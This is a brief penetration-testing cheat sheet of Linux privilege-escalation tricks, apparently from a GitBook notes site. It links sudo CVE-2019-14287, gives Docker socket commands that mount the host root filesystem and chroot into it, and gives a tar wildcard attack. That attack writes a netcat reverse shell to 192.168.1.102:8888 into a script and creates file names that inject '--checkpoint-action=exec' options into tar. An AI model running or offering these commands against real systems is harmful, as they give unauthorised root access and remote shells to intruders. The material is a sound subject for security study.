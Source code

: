 # Interesting PrivEsc Findings

## Sudo CVE

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>sudo <a href="https://access.redhat.com/security/cve/cve-2019-14287">CVE-2019-14287</a></p></figcaption></figure>

Read more: [https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/)

## Docker

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```

Docker shell bypass and privesc to root

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

## Tar Wildcard

```bash
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```


